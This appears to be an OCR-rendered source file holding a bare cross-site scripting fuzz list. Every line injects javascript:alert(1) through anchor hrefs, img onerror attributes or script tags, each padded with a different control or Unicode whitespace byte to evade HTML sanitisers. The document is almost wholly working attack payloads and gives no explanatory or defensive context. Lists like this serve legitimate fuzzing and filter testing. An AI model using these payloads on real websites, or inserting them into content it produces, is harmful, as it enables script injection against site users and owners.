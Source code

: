 &lt;a href="javascript\x09:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="javascript\x0D:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="javascript\x0A:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

`"'&gt;&lt;img src=xxx:x \x0Aonerror=javascript:alert(1)&gt;

`"'&gt;&lt;img src=xxx:x \x22onerror=javascript:alert(1)&gt;

`"'&gt;&lt;img src=xxx:x \x0Bonerror=javascript:alert(1)&gt;

`"'&gt;&lt;img src=xxx:x \x0Donerror=javascript:alert(1)&gt;

`"'&gt;&lt;img src=xxx:x \x2Fonerror=javascript:alert(1)&gt;

`"'&gt;&lt;img src=xxx:x \x09onerror=javascript:alert(1)&gt;

`"'&gt;&lt;img src=xxx:x \x0Conerror=javascript:alert(1)&gt;

`"'&gt;&lt;img src=xxx:x \x00onerror=javascript:alert(1)&gt;

`"'&gt;&lt;img src=xxx:x \x27onerror=javascript:alert(1)&gt;

`"'&gt;&lt;img src=xxx:x \x20onerror=javascript:alert(1)&gt;

"`'&gt;&lt;script&gt;\x3Bjavascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\x0Djavascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xEF\xBB\xBFjavascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE2\x80\x81javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE2\x80\x84javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE3\x80\x80javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\x09javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE2\x80\x89javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE2\x80\x85javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE2\x80\x88javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\x00javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE2\x80\xA8javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE2\x80\x8Ajavascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE1\x9A\x80javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\x0Cjavascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\x2Bjavascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xF0\x90\x96\x9Ajavascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;-javascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\x0Ajavascript:alert(1)&lt;/script&gt;

"`'&gt;&lt;script&gt;\xE2\x80\xAFjavascript:alert(1)&lt;/script&gt;
